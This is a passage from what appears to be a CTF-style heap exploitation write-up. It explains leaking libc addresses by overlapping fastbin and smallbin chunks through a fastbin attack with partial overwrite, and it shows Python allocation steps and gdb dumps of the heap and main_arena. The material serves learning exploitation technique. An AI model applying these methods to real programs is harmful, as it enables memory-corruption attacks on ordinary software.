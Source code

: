 ## The leak

To create a leak, we are going to force an allocation on top of already allocated chunk. After we have both chunks (a fastbin and smallbin sized chunks) overlaying each other we are going to free the smallbin sized chunk and then dump the content of the fastbin sized chunk which will be populated with the content of the smallbin's FD and BK pointing to main_arena. To do that we are going to use partial-overwrite with [fastbin attack](https://github.com/shellphish/how2heap/blob/master/fastbin_dup_into_stack.c)

First step is to allocate a couple of same-sized fastbins and 1 smallbin which is going to be our overlay target that we want to allocate over. After that we free 2 of the fastbins, this will place the first freed fastbin in the fastbin list in main_arena for that index.

{% highlight python %}

    alloc(0x20)
    alloc(0x20)     # <--- chunk being freed
    alloc(0x20)
    alloc(0x20)
    alloc(0x80)

    free(1)

{% endhighlight %}

And if we look at the content of the heap and main_arena we can see this chunk's been put in it's corresponding fastbin.

{% highlight text %}
0x55db5d67f000: 0x0000000000000000  0x0000000000000031  <--- chunk 0 (fastbin, in use)
0x55db5d67f010: 0x0000000000000000  0x0000000000000000
0x55db5d67f020: 0x0000000000000000  0x0000000000000000
0x55db5d67f030: 0x0000000000000000  0x0000000000000031  <--- chunk 1 (fastbin, free)
0x55db5d67f040: 0x0000000000000000  0x0000000000000000
0x55db5d67f050: 0x0000000000000000  0x0000000000000000
0x55db5d67f060: 0x0000000000000000  0x0000000000000031  <--- chunk 2 (fastbin, in use)
0x55db5d67f070: 0x0000000000000000  0x0000000000000000
0x55db5d67f080: 0x0000000000000000  0x0000000000000000
0x55db5d67f090: 0x0000000000000000  0x0000000000000031  <--- chunk 3 (fastbin, in use)
0x55db5d67f0a0: 0x0000000000000000  0x0000000000000000
0x55db5d67f0b0: 0x0000000000000000  0x0000000000000000
0x55db5d67f0c0: 0x0000000000000000  0x0000000000000091  <--- chunk 4 (smallbin, in use)
0x55db5d67f0d0: 0x0000000000000000  0x0000000000000000
0x55db5d67f0e0: 0x0000000000000000  0x0000000000000000

gdb-peda$ x/40gx &main_arena
0x7f2f858deb20 <main_arena>:    0x0000000000000000  0x0000000000000000
0x7f2f858deb30 <main_arena+16>: 0x000055db5d67f030  0x0000000000000000  <--- populated fastbin
0x7f2f858deb40 <main_arena+32>: 0x0000000000000000  0x0000000000000000
0x7f2f858deb50 <main_arena+48>: 0x0000000000000000  0x0000000000000000
0x7f2f858deb60 <main_arena+64>: 0x0000000000000000  0x0000000000000000
0x7f2f858deb70 <main_arena+80>: 0x0000000000000000  0x000055db5d67f150  <--- top chunk
0x7f2f858deb80 <main_arena+96>: 0x0000000000000000  0x00007f2f858deb78
0x7f2f858deb90 <main_arena+112>:    0x00007f2f858deb78  0x00007f2f858deb88
0x7f2f858deba0 <main_arena+128>:    0x00007f2f858deb88  0x00007f2f858deb98

{% endhighlight %}
